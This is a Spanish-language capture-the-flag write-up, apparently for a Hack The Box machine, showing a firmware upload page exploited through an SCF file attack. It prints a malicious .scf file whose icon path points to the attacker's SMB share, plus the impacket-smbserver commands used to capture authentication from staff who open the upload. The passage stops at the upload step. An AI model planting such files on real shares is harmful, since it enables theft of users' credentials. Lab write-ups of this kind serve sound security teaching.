 # User.txt

![image](https://user-images.githubusercontent.com/67548295/155847024-0112b821-44b2-4b3f-b99b-013237430229.png)

Intento acceder a las secciones de la página pero veo que solo funciona el apartado "_Firmware Updates_"

![image](https://user-images.githubusercontent.com/67548295/155847072-15c2a08c-60db-42ca-9540-dfdb2c3121a5.png)

Podemos ver que se nos dice:

> Selecciona el modelo de la impresora y sube la respectiva actualizacion de firmware a nuestro archivo compartido. Nuestro equipo de pruebas revisará las subidas manualmente e iniciará las pruebas pronto.

Me llama mucho la atención la parte en la que nos dicen que los archivos subidos serán **revisados manualmente**

Esto me da a pensar en un posible vector de entrada, podríamos intentar efectuar un [SCF file attack](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/){:target="\_blank"}{:rel="noopener nofollow"}.

Para hacer esto, seguiremos unos pasos:

###### 1º Paso - Creación del archivo SCF

Creamos el archivo **SCF malicioso** el cual intentará cargar su icono de nuestro recurso compartido que crearemos más adelante:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Driver]
└──╼ $ cat malicious.scf 
[Shell]
Command=2
IconFile=\\10.10.14.40\zero\icon.ico
[Taskbar]
Command=ToggleDesktop
```

###### 2º Paso - Levantamos un servidor SMB

Para este paso será necesario tener `Impacket` instalado. Si no lo tienes, puedes instalarlo de forma rápida con este comando:

> `python3 -m pip install impacket`

Para montar un **servidor SMB** usamos este comando:

> `impacket-smbserver zero $(pwd)`

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Driver]
└──╼ $ sudo impacket-smbserver zero $(pwd) 
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
###### 3º Paso - Subimos el archivo SCF al servidor
